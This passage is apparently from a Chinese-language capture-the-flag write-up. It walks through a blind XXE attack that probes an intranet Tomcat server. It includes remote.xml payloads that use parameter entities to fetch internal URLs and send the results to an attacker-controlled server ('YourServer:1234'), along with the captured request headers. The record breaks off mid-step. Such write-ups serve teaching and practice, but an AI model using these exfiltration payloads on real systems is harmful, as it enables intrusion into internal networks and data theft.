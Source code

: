 > RequestHead

```HTTP
GET /Flag%20in%20intranet%20tomcat_2%20server%208080%20port. HTTP/1.1
Cache-Control: no-cache
Pragma: no-cache
User-Agent: Java/1.8.0_151
Host: 103.42.28.252:1234
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
```

> hint.txt

```
Flag in intranet tomcat_2 server 8080 port
```

#### tomcat_2

应该是一个内网的服务器可以去扫描内网，具体怎么用一个XXE去扫描内网我还没研究，这里猜出内网地址`http://tomcat_2:8080`

于是这里并不是读文件了，而是去用XXE去访问内网的一个URL：

`file://flag/hint.txt` --> `http://tomcat_2:8080`

和之前的方式大同小异，只更改remote.xml内容如下：

```xml
<!ENTITY % file SYSTEM "http://tomcat_2:8080">
<!ENTITY % init "<!ENTITY &#37; send SYSTEM 'http://YourServer:1234/%file;'>">
%init;
%send;
```

收到请求头：
```HTTP
GET /try%20to%20visit%20hello.action. HTTP/1.1
Cache-Control: no-cache
Pragma: no-cache
User-Agent: Java/1.8.0_151
Host: 103.42.28.252:1234
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
```

这里提示去访问hello.action

#### hello.action

继续更改remote.xml
```xml
<!ENTITY % file SYSTEM "http://tomcat_2:8080/hello.action">
<!ENTITY % init "<!ENTITY &#37; send SYSTEM 'http://YourServer:1234/%file;'>">
%init;
%send;
```

继续收到请求头：
